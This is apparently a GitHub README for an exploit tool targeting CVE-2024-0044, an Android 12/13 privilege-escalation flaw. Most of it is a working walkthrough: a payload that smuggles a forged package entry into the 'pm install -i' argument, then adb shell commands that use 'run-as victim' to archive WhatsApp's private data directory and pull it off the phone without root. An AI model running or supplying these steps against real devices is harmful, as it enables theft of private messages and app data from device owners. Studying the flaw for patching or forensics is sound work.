 ## CVE 2024 0044
CVE-2024-0044, identified in the createSessionInternal function of the PackageInstallerService.java file, is a high-severity vulnerability affecting Android versions 12 and 13. This vulnerability allows an attacker to perform a "run-as any app" attack, leading to local escalation of privilege without requiring user interaction.The issue arises due to improper input validation within the createSessionInternal function. An attacker can exploit this by manipulating the session creation process, potentially gaining unauthorized access to sensitive data and performing unauthorized actions on the affected device​ 

The exploit was discovered by [Meta security ](https://rtx.meta.security/exploitation/2024/03/04/Android-run-as-forgery.html)

The proof of concept was summarised and shared by [Tiny hack](https://tinyhack.com/2024/06/07/extracting-whatsapp-database-or-any-app-data-from-android-12-13-using-cve-2024-0044/?s=03)

Details about the security patch can be found at [Android security bulletin](https://source.android.com/docs/security/bulletin/2024-03-01)

## Prerequisites
1. Enable USB debugging in your mobile phone and connect it to your machine using a usb cable or wireless debugging
2. Download any apk to your machine you can use [F-DROID](https://f-droid.org/)

## How to use the tool 
```
python3 cve_2024_0044.py -h
                                                                               
##########################################################################################
###############S%%#####################################################%%S################
###############%++*S##################################################?++?################
################%++*S###############################################S*++?#################
#################%+++%#############################################S*++%##################
##################S*++%###########################################%+++%###################
###################S*++?#########SSS%%?????***?????%%%SS#########%++*S####################
#####################?++*##S%%?**+++++++++++++++++++++++**??%S##?++*S#####################
######################?++**+++++++++++++++++++++++++++++++++++**++*#######################
###################S%?*++++++++++++++++++++++++++++++++++++++++++++?%S####################
#################%?+++++++++++++++++++++++++++++++++++++++++++++++++++*%S#################
##############S?+++++++++++++++++++++++++++++++++++++++++++++++++++++++++?S###############
############S?+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++*S#############
##########S?+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++*S###########
#########%+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++?##########
#######S*+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++*S########
######%++++++++++++++*%SS%?+++++++++++++++++++++++++++++++++++?%SS%*++++++++++++++%#######
#####%++++++++++++++*######%+++++++++++++++++++++++++++++++++%######?++++++++++++++?######
####?+++++++++++++++*######S+++++++++++++++++++++++++++++++++%######?+++++++++++++++?#####
###%+++++++++++++++++*%SS%?+++++++++++++++++++++++++++++++++++?%SS%*+++++++++++++++++?####
##S+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++%###
##*++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++S##
#%+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++?##
#*++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++S#
S+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++%#      
        
usage: cve_2024_0044.py [-h] -P P -A A

CVE-2024-0044: run-as any app @Pl4int3xt

options:
  -h, --help  show this help message and exit
  -P P        package name (default: None)
  -A A        apk file path (default: None)
```
``-P`` is used to specify the target package name you want to run as 

``-A`` to specify the apk file to push in the device
## Exploitation
Run the tool 
```python3 cve_2024_0044.py -P com.whatsapp -A /home/pl4int3xt/Downloads/F-Droid.apk```

A ```payload.txt``` file like this will be generated
```
PAYLOAD="@null
victim 10289 1 /data/user/0 default:targetSdkVersion=28 none 0 0 1 @null"
pm install -i "$PAYLOAD" /data/local/tmp/F-Droid.apk
```
#### The tool automates some parts and other parts are manual. You can exit after generating the payload and run all the commands manually or you can continue with the instructions 

### Next you'll need to connect to your device using adb shell and paste in the payload and make sure you get a ``Success`` message back after the last command
```
pl4int3xt ~>  adb shell
pixel:/ $ PAYLOAD="@null
> victim 10289 1 /data/user/0 default:targetSdkVersion=28 none 0 0 1 @null"
pixel:/ $ pm install -i "$PAYLOAD" /data/local/tmp/F-Droid.apk
Success
```

### Next we get the whatsapp data using the following commands
```
pixel:/ $ mkdir /data/local/tmp/wa/                                                                            
pixel:/ $ touch /data/local/tmp/wa/wa.tar
pixel:/ $ chmod -R 0777 /data/local/tmp/wa/
pixel:/ $ run-as victim
pixel:/data/user/0 $ tar -cf /data/local/tmp/wa/wa.tar com.whatsapp
```
Create a temporary directory: `mkdir /data/local/tmp/wa/`

Create a placeholder for a tar file: `touch /data/local/tmp/wa/wa.tar`

Set wide-open permissions: `chmod -R 0777 /data/local/tmp/wa/` to ensure any user can read, write, and execute within this directory.

Switch user context: `run-as victim` to gain the same permissions as the "victim" user.

Archive the target application's data: `tar -cf /data/local/tmp/wa/wa.tar com.whatsapp`, creating a tarball of the WhatsApp data directory.

### Finally pull the data
```adb pull /data/local/tmp/wa/wa.tar```

You can extract the data using `7z` or any other tool

You can use [Whatsapp chat exporter](https://github.com/KnugiHK/Whatsapp-Chat-Exporter) to convert it to HTML

This allows you to get whatsapp data without a root access on your device




 
